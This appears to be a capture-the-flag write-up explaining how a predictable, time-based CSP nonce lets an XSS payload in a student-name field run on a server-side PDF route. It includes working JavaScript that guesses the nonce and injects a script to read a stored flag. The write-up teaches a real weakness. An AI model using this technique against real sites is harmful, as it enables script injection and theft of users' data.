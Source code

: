 The /viewtranscript route is blatantly vulnerable to XSS through the studentName field
in the transcript request. However, the CSP prevents injected scripts from running
without the nonce, which would be sufficient protection against XSS were it not for
the predictability of nonce generation. Since the nonce is just the current time
rounded to the nearest 5 seconds and encoded as base64, an attacker can guess the
nonce and thus allow his script to run despite the CSP. Obviously, attacking the
/viewtranscript route itself is useless since it runs on the user's own computer,
but the /pdftranscript route instead runs on the remote server and thus attacking
it yields the flag.

Here's an example solution (enter into browser console from the main page):
```js
const time = String(Math.round(new Date().getTime() / 1_000) + 3)
const nonce = btoa(time + (Number(time.slice(-1)) >= 5 ? '5' : '0') + '00')
window.location.href = '/pdftranscript?transcript=' + encodeURIComponent(JSON.stringify({
    studentName: `<script nonce="${nonce}">document.write(localStorage.flag)</script>`,
    courses: []
}))
```

Note that this script might take a few tries to work because the nonce
might be slightly off.
